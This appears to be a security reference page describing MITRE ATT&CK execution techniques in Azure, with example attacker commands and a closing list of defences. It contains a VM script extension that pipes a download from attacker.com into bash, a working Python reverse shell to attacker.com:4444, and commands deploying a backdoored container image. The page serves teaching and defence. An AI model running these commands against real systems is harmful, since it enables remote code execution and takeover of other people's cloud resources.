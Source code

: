 # Execution TA0002

## **Execution Techniques in Azure Environments**

In Microsoft Azure, adversaries use Execution techniques to run code and control resources post-initial access. Execution may happen by abusing legitimate Azure APIs, uploading and triggering malicious images or workloads, or executing code through serverless platforms like Azure Functions or Logic Apps.

Execution in Azure often blends native cloud administration and code execution paths, making detection tricky if defenses aren't tuned.

***

### Cloud Administration Command **T1651**

**Description**:\
Use Azure-native management interfaces (CLI, Portal, REST API, PowerShell) to run administrative operations that lead to code execution or resource manipulation.

**Azure Example**:\
An attacker with valid credentials uses the Azure CLI to deploy a malicious Virtual Machine:

```bash
az vm create --resource-group victim-rg --name malicious-vm --image UbuntuLTS --admin-username hacker --generate-ssh-keys
```

Or run arbitrary script extensions on an existing VM:

```bash
az vm extension set --publisher Microsoft.Azure.Extensions --name CustomScript --vm-name target-vm --resource-group target-rg --settings '{"commandToExecute":"curl http://attacker.com/payload.sh | bash"}'
```

**Result**: Code execution on Azure VMs without needing local exploit — pure abuse of cloud admin capabilities.

***

### Command and Scripting Interpreter **T1059**

**Description:**

Command and Scripting Interpreter refers to adversaries abusing command-line interfaces (CLIs), shells, or scripting engines to execute arbitrary commands, scripts, or payloads within a target environment.

Rather than deploying custom malware immediately, attackers leverage built-in interpreters like bash, PowerShell, Python, JavaScript, or cloud-native APIs to:

* Run malicious commands
* Automate exploitation or exfiltration tasks
* Establish persistence
* Move laterally across systems

Because shells and interpreters are standard components of all environments — containers, VMs, on-prem, and cloud — their use often blends into normal operations unless closely monitored.

### **Cloud API** T1059.009

**Description**:\
Execute code by directly interacting with Azure Resource Manager (ARM) APIs or service-specific APIs (e.g., Azure Kubernetes Service, Azure Functions) to create and run workloads.

**Azure Example**:\
An attacker uses raw REST API calls to deploy a container:

```bash
curl -X PUT https://management.azure.com/subscriptions/<sub-id>/resourceGroups/<rg>/providers/Microsoft.ContainerInstance/containerGroups/malicious-container?api-version=2021-03-01 \
  -H "Authorization: Bearer <token>" \
  -d @malicious-container-payload.json
```

**Result**: Programmatic creation of attack infrastructure without detection if API telemetry isn’t watched.

***

### Serverless Execution T1648

**Description**:\
Deploy and trigger malicious Azure Functions, Logic Apps, or Event Grid handlers to run attacker-controlled code without needing to maintain infrastructure.

**Azure Example**:\
An attacker uploads a malicious Azure Function using stolen credentials:

```bash
func azure functionapp publish victim-function-app --python
```

Or directly edits an HTTP-triggered Azure Function to insert reverse shell code:

```python
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("attacker.com",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

**Result**: Fully serverless, covert C2 channel established in Azure.

***

### User Execution T1204

Adversaries rely on social engineering or human error to trick users or automated systems into executing malicious code.

In containerized environments, User Execution often involves:

* Tricking DevOps teams into pulling or running malicious container images.
* Injecting backdoored images into trusted registries.
* Abusing automation (e.g., CI/CD pipelines) to deploy compromised containers without immediate human review.

#### **Malicious Image** T1204.003

**Description**:\
Upload or deploy a backdoored container image to Azure Container Registry (ACR), Azure Kubernetes Service (AKS), or Azure Container Instances (ACI), tricking users or workloads into executing it.

**Azure Example**:\
An attacker pushes a malicious container image into ACR:

```bash
az acr login --name victimacr
docker tag backdoor:latest victimacr.azurecr.io/backdoor:latest
docker push victimacr.azurecr.io/backdoor:latest
```

Then deploys it to AKS:

```bash
kubectl run pwned-pod --image=victimacr.azurecr.io/backdoor:latest
```

**Result**: The malicious container runs inside AKS, ACI, or other containerized workloads.

***

## Summary of **Execution Techniques in Azure**&#x20;

| Technique/Subtechnique                        | MITRE ID      | Azure Example                                                                                                |
| --------------------------------------------- | ------------- | ------------------------------------------------------------------------------------------------------------ |
| Cloud Administration Command                  | **T1651**     | Use Azure CLI, PowerShell, or REST API to run admin commands (e.g., deploy VMs, run CustomScript extensions) |
| Command and Scripting Interpreter → Cloud API | **T1059.009** | Execute code via direct REST API calls (e.g., ARM API to deploy containers)                                  |
| Serverless Execution                          | **T1648**     | Deploy malicious Azure Functions, Logic Apps, Event Grid handlers to trigger code automatically              |
| User Execution → Malicious Image              | **T1204.003** | Push and deploy backdoored container images into ACR, AKS, or ACI                                            |

## Final Summary

Defending against Execution in Azure focuses on:

* **Monitoring cloud administrative actions closely** (API calls, deployments)
* **Hardening workloads** (image signing, runtime controls, serverless code reviews)
* **Restricting who can deploy or modify code** (strict role assignments)
* **Detecting anomalous deployment and execution behavior** (Defender for Cloud, Sentinel rules)
